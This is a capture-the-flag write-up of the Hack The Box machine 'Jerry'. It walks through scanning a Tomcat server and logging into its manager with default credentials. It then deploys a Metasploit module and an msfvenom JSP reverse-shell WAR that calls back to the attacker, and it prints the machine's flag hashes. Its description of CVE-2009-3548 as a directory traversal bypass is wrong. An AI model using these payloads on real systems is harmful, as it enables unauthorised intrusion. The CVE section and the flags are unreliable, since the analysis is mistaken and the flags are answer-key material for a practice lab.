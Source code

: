 ```yaml
---
title: HTB Machine Jerry May 2025
published: 2025-05-20
description: Writeup of HTB Jerry Machine.
tags:
  - B2R
  - HTB
  - Tomcat
  - Apache
  - Easy
  - Windows
  - Retired
  - Metasploit
  - CVE-2009-3548
  - Path-Traversal-To-RCE
image: images/cover.png
category: HTB Machine Writeups
draft: false
---
```

# Scanning

## Nmap


```bash
nmap -sC -sV -T5 -oA nmap/initials 10.10.10.95 -Pn
```

```bash
# Nmap 7.94SVN scan initiated Tue May 20 15:50:47 2025 as: nmap -sC -sV -T5 -oA nmap/initials -Pn 10.10.10.95
Nmap scan report for 10.10.10.95 (10.10.10.95)
Host is up (0.17s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 20 15:51:26 2025 -- 1 IP address (1 host up) scanned in 38.79 seconds
```

- Found port 8080 open running `Apache Tomcat 7.0.88` with Coyote JSP engine 1.1
- Used `-Pn` flag to skip host discovery as the target might be blocking ICMP ping packets
- The scan reveals this is a fairly isolated server with only the Tomcat service exposed
- Apache Tomcat 7.0.88 is relatively outdated, suggesting potential vulnerabilities

# Enumeration

- Accessing the web server at `http://10.10.10.95:8080` presents the default Tomcat welcome page:

![Pasted image 20250520170205.png](images/Pasted_image_20250520170205.png)

- The welcome page shows links to various Tomcat applications, including the Tomcat Manager
- When attempting to access the `Manager App`, I'm prompted for authentication credentials
- First tried basic credentials:
    - `Admin:Admin`

![Pasted image 20250520170610.png](images/Pasted_image_20250520170610.png)

- This attempt resulted in "Access Denied" - but interestingly, the error page reveals valid credentials in plain text!
- Hardcoded default credentials appear in the error message:
    - `tomcat:s3cret`

![Pasted image 20250520170406.png](images/Pasted_image_20250520170406.png)

- Using these credentials successfully grants access to the Tomcat Manager interface at `http://10.10.10.95:8080/manager/html`

![Pasted image 20250520170543.png](images/Pasted_image_20250520170543.png)

- The Manager interface provides complete control over deployed applications and server status
- This is a significant security weakness - administrative credentials should never be included in error messages

![Pasted image 20250520170132.png](images/Pasted_image_20250520170132.png)

- Using `searchsploit` to find known vulnerabilities for this Tomcat version:

![Pasted image 20250520165404.png](images/Pasted_image_20250520165404.png)

- Several vulnerabilities appear, including multiple paths for exploitation

## Technical Analysis of CVE-2009-3548

- The Apache Tomcat Manager application is vulnerable to `CVE-2009-3548`, which is a `directory traversal vulnerability`. This vulnerability specifically affects:
	- Apache Tomcat versions 6.0.0 to 6.0.20
	- Apache Tomcat versions 5.5.0 to 5.5.28
	- Apache Tomcat versions 4.1.0 to 4.1.39
- While our target is running Tomcat 7.0.88, it's still vulnerable to similar attack vectors because of how the Manager application handles WAR file deployments.

## Attack Vector Details

1. **Authentication Bypass**: The vulnerability originally allowed attackers to bypass authentication by using directory traversal sequences (`../`) in URLs.
2. **WAR File Deployment**: In our case, we're using valid credentials, but exploiting the ability to deploy custom WAR (Web Application Archive) files.
3. **Execution Flow**:
    - A WAR file contains a web application that can be deployed to a Java servlet container
    - When deployed, Tomcat extracts and executes the contents
    - If we include malicious JSP code in our WAR file, it will execute with Tomcat's privileges
    - Since Tomcat is typically running as a privileged user, this allows for remote code execution
4. **Modern Exploitation**: While our target isn't vulnerable to the original CVE-2009-3548 directory traversal, the WAR file upload functionality presents a similar security risk that can be exploited through the Manager interface.

# Exploitation using Metasploit

- After confirming the vulnerability exists, I used Metasploit's `tomcat_mgr_upload` module:

```bash
use exploit/multi/http/tomcat_mgr_upload
set rhosts 10.10.10.95
set rport 8080
set lhost 10.10.16.2
set httpusername tomcat
set httppassword s3cret
exploit
```

- This module:
    1. Authenticates to the Tomcat Manager interface
    2. Creates a malicious WAR file containing a JSP payload
    3. Uploads and deploys the WAR file
    4. Triggers the payload to establish a reverse shell

![Pasted image 20250520165132.png](images/Pasted_image_20250520165132.png)

- Success! The module worked perfectly and provided a Meterpreter shell
- This demonstrates how dangerous exposed management interfaces can be, especially with default credentials

# Manual Exploitation

- While Metasploit makes this easy, understanding the manual process is valuable for learning
- The Tomcat Manager interface provides a direct "WAR file to deploy" upload function:

![Pasted image 20250520165752.png](images/Pasted_image_20250520165752.png)

- First, I created a custom payload using `msfvenom`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.16.2 lport=1337 -f war -o shell2.war
```

- This command:
    1. Uses the `java/jsp_shell_reverse_tcp` payload - a JSP-based reverse shell
    2. Sets my attacking machine as the callback destination
    3. Formats the output as a WAR file
    4. Names the output file `shell2.war`

![Pasted image 20250520165721.png](images/Pasted_image_20250520165721.png)

- After generating the payload, I uploaded it through the Manager interface
- The WAR file appears in the application list after successful deployment:

![Pasted image 20250520165833.png](images/Pasted_image_20250520165833.png)

- A WAR file's context path (URL) is typically the filename without the .war extension
- Starting a netcat listener to catch the reverse shell:

```bash
nc -lvnp 1337
```

- Then triggering the payload by accessing the deployed application:

![Pasted image 20250520165907.png](images/Pasted_image_20250520165907.png) ![Pasted image 20250520165917.png](images/Pasted_image_20250520165917.png)

- Success! The shell connects back with SYSTEM privileges
- This demonstrates the severity of the vulnerability - direct command execution with the highest privilege level

### Understanding the WAR Payload

- The WAR file contains:
	1. A deployment descriptor (`WEB-INF/web.xml`) that defines the application structure
	2. JSP files that execute when accessed through the web server
	3. In our case, embedded Java code that creates a reverse TCP connection
	4. When executed, it runs with the same privileges as the Tomcat service (SYSTEM in this case)

## Getting Flags

- With SYSTEM-level access, retrieving both user and root flags is trivial:

![Pasted image 20250520165319.png](images/Pasted_image_20250520165319.png)

lua

```lua
user.txt
7004dbcef0f854e0fb401875f26ebd00
root.txt
04a8b36e1545a455393d067e772fe90e
```